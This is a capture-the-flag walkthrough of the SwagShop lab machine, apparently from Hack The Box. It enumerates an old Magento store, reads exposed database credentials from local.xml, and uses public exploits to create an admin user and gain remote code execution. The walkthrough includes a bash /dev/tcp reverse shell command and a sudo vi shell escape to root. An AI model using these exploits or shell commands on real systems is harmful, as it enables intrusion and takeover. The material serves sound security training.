 # Machine Name
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
Nmap scan report for 10.10.10.140
Host is up (0.27s latency).
Not shown: 987 closed tcp ports (reset)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp    open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
311/tcp   filtered asip-webadmin
720/tcp   filtered unknown
1094/tcp  filtered rootd
2144/tcp  filtered lv-ffx
3325/tcp  filtered active-net
3800/tcp  filtered pwgpsi
5054/tcp  filtered rlm-admin
5550/tcp  filtered sdadmind
5633/tcp  filtered beorl
7019/tcp  filtered doceri-ctl
25734/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As we can see we have only port 22 and 80 opened, from the SSH service we can guess that the running os is Ubuntu xenial.  
Now, let's dig into port 80.  
As we hit ```http://swagshop.htb/``` we can notice a magento banner and a copyright version from 2014.  
So we can guess that the running magento version is old.  
First thing first let's enumerate directories using gobuster.  
```
/media                (Status: 301) [Size: 312] [--> http://10.10.10.140/media/]
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.140/includes/]
/lib                  (Status: 301) [Size: 310] [--> http://10.10.10.140/lib/]
/app                  (Status: 301) [Size: 310] [--> http://10.10.10.140/app/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.140/js/]
/shell                (Status: 301) [Size: 312] [--> http://10.10.10.140/shell/]
/skin                 (Status: 301) [Size: 311] [--> http://10.10.10.140/skin/]
/var                  (Status: 301) [Size: 310] [--> http://10.10.10.140/var/]
/errors               (Status: 301) [Size: 313] [--> http://10.10.10.140/errors/]
/mage                 (Status: 200) [Size: 1319]
/server-status        (Status: 403) [Size: 300]
```
Poking around on the site we can notice that a strange redirection is happening, in fact when we browse to different site locations we can see that before the directory name we have ```/index.php/``` prepend.  
Now, let's move forward and run magescan against the target.  
After running magescan, we can notice the version of magento.  
Let's keep this in mind for later.  
```
+-----------+------------------+                                                                                                                                                                                                             
| Parameter | Value            |                                                                                                                                                                                                             
+-----------+------------------+                                                                                                                                                                                                             
| Edition   | Community        |                                                                                                                                                                                                             
| Version   | 1.9.0.0, 1.9.0.1 |                                                                                                                                                                                                             
+-----------+------------------+   
```
In the magescan output, we can notice also that a security check fails.  
in fact we are able to read the following file:  
```
[root@kali SwagShop ]$ php /opt/magescan/magescan.phar scan:all swagshop.htb
[... SNIP ...]
| app/etc/local.xml                            | 200           | Fail   |
[... SNIP ...]
```
As we can see, when we open this file we get possible confidential information, possibly, db credentials and connection information:
```
<connection>
  <host>localhost</host>
  <username>root</username>
  <password>fMVWh7bDHpgZkyfqQXreTjU9</password>
  <dbname>swagshop</dbname>
  <initStatements>SET NAMES utf8</initStatements>
  <model>mysql4</model>
  <type>pdo_mysql</type>
  <pdoType></pdoType>
  <active>1</active>
</connection>
```
Now that we have the version let's look for publicly available exploits:  
```
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                                                                                                                                               | php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service)                                                                                                                    | php/webapps/38651.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?email' Cross-Site Scripting                                                                                                   | php/webapps/32809.txt
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cross-Site Scripting                                                                                                         | php/webapps/32808.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                                                                                                                                                  | php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                                                                                                                                             | php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                                                                                                                                               | php/webapps/37811.py
Magento eCommerce - Local File Disclosure                                                                                                                                                                  | php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                                                                                                                                                  | xml/webapps/37977.py
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                                                                                                                                                | php/webapps/35052.txt
Magento Server MAGMI Plugin - Multiple Vulnerabilities                                                                                                                                                     | php/webapps/35996.txt
Magento WooCommerce CardGate Payment Gateway 2.0.30 - Payment Process Bypass                                                                                                                               | php/webapps/48135.php
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
After examining all the available exploits compatible with our version, we can try to use ```xml/webapps/37977.py```.  
using this exploit we can create a user and then we can try to use an authenticated exploit and leverage higher privileges.  

## User
Since we found a possible exploit to inject a user into the system, let's try to tune it and run.  
first we need to edit a couple of lines, for example the target (due to previously discovered redirection rule). look at the diffs below:  
```
38c38
< target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"
---
> target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
```
and also let's change the default username:
```
49c49
< query = q.replace("\n", "").format(username="b0d", password="forme")
---
> query = q.replace("\n", "").format(username="forme", password="forme")
```
Now if we try to login into ```http://swagshop.htb/index.php/admin/``` with credentials b0d:forme, we can login as admin.  
now that we have creds, we can try the authenticated RCE exploit and use ```php/webapps/37811.py```.  
To tune this exploit we can use the following parameters:  
```
# Command-line args
target = 'http://swagshop.htb/index.php/admin'
arg = 'bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"'

# Config.
username = 'b0d'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml publicly available (magescan)
```
Make this exploit work is a little bit more challenging, as we need to deal with encoding issues and type casting.  
We can help ourselves using [pdb](https://docs.python.org/3/library/pdb.html).  
We just need to ```import pdb``` and set preakpoints with ```pdb.set_trace()```.  
As always intercept exploit requests using burp proxy will help in understand why the exploit gets stuck.  
After we debug the exploit and tune it properly, we can run it, listen on our local port, wait for the shell to gets returned:
```
root@kali:~/Documents/HTB/Boxes/SwagShop# nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.140] 45660
bash: cannot set terminal process group (1391): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$
```

## Root
After we get a shell, if we run ```sudo -l``` we can see that we have a quite obvious privilege escalation path.  
Anyway let's use common practices and spot this running linpeas.sh:  
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d                                                                                                                                                                            
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                                                                                                  
Matching Defaults entries for www-data on swagshop:                                                                                                                                                                                          
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                                                                        

User www-data may run the following commands on swagshop:                                                                                                                                                                                    
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

```
Now, we can just:
```
www-data@swagshop:/var/www/html$ sudo vi /var/www/html/test
```
and type:
```
:!/bin/bash
```
and we got root.
```
www-data@swagshop:/var/www/html$ sudo vi /var/www/html/test
root@swagshop:/var/www/html#
```
